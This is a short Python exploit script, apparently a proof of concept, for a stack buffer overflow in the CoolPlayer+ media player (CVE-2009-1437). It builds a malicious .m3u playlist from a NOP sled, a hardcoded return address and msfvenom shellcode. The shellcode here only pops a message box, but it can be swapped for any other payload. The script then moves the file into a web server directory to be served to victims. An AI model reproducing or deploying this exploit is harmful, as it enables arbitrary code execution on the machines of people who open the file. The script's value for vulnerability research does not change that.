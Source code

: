 EXP
---

    #!/usr/bin/python
    """
    Content:    Exploit coolplayer+ <= 2.19.6
    Author:     Florian Hansemann | @HanseSecure | https://hansesecure.de
    Date:       02/2018

    Related     Vulnerability:  CVE-2009-1437 && Exploit https://www.exploit-db.com/exploits/8519/
    """

    import sys
    from subprocess import call


    """
    RET address:
    00402C77
    Converted reverseHex value:
    \x77\x2C\x40\x00

    """

    #msfvenom -p windows/messagebox TEXT="Owned by @HanseSecure" -f python

    buf =  ""
    buf += "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
    buf += "\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
    buf += "\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
    buf += "\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
    buf += "\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
    buf += "\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
    buf += "\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
    buf += "\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
    buf += "\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
    buf += "\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
    buf += "\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
    buf += "\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
    buf += "\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
    buf += "\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
    buf += "\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
    buf += "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68"
    buf += "\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c"
    buf += "\x24\x0a\x89\xe3\x68\x65\x58\x20\x20\x68\x65\x63\x75"
    buf += "\x72\x68\x6e\x73\x65\x53\x68\x20\x40\x48\x61\x68\x64"
    buf += "\x20\x62\x79\x68\x4f\x77\x6e\x65\x31\xc9\x88\x4c\x24"
    buf += "\x15\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0"
    buf += "\x50\xff\x55\x08"


    ret = "\x77\x2C\x40\x00"
    jmp = "\xeb\x1e"

    buffer = "\x90"*230 + jmp + "\x90"*2 + ret + "\x90"*50 + buf + "A"*(4000-234-4-50-len(buf))


    print "[+] Creating malicious file"
    file = open("test","w")
    file.write(buffer)
    file.close()
    call(['mv test /var/www/html/test.m3u'], shell=True)
    print "[+] File created and moved to webspace successfully"